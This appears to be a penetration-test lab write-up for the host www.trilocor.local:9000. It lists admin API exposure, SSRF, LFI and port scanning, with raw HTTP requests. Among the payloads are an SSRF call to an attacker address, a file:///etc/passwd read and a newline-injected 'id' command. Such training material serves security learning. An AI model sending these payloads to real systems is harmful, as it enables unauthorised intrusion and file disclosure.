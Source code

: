 # www.trilocor.local:9000

---

ID Disclosure

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image.png)

---

Broken access

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%201.png)

---

Guessable API - exposed admin functionality

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%202.png)

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%203.png)

```bash
POST /api/admin/add_product HTTP/1.1
Host: www.trilocor.local:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Origin: http://www.trilocor.local:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:9000/products/buy
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=fiqnd9kgte0t5sptvov41th6ne
Connection: close
Content-Type: application/json
Content-Length: 105

{
"uuid":"f19d77c3-753c-48d6-9430-4d1a09aea67d",
"productName": "Hijacker2000",
"productPrice":1337
}
```

---

SSRF

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%204.png)

```bash
POST /api/admin/healthcheck HTTP/1.1
Host: www.trilocor.local:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Origin: http://www.trilocor.local:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:9000/products/buy
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=fiqnd9kgte0t5sptvov41th6ne
Connection: close
Content-Type: application/json
Content-Length: 95

{
"uuid":"f19d77c3-753c-48d6-9430-4d1a09aea67d",
"url":"http://10.10.14.24:10000/test.php"
}
```

---

LFI

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%205.png)

```bash
POST /api/admin/healthcheck HTTP/1.1
Host: www.trilocor.local:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Origin: http://www.trilocor.local:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:9000/products/buy
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=fiqnd9kgte0t5sptvov41th6ne
Connection: close
Content-Type: application/json
Content-Length: 80

{
"uuid":"f19d77c3-753c-48d6-9430-4d1a09aea67d",
"url":"file:///etc/passwd"
}
```

---

Port scanning

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%206.png)

```bash
POST /api/admin/healthcheck HTTP/1.1
Host: www.trilocor.local:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Origin: http://www.trilocor.local:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:9000/products/buy
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=fiqnd9kgte0t5sptvov41th6ne
Connection: keep-alive
Content-Type: application/json
Content-Length: 83

{
"uuid":"f19d77c3-753c-48d6-9430-4d1a09aea67d",
"url":"http://localhost:9090"
}
```

---

Command injection

![image.png](www%20trilocor%20local%209000%201d2021737a89805d83a9fa0ef16e3465/image%207.png)

```bash
POST /api/admin/healthcheck HTTP/1.1
Host: www.trilocor.local:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Origin: http://www.trilocor.local:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.trilocor.local:9000/products/buy
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=fiqnd9kgte0t5sptvov41th6ne
Connection: keep-alive
Content-Type: application/json
Content-Length: 114

{
"uuid":"f19d77c3-753c-48d6-9430-4d1a09aea67d",
"url":"http://localhost:9090/?install&package=requests%0aid"
}
```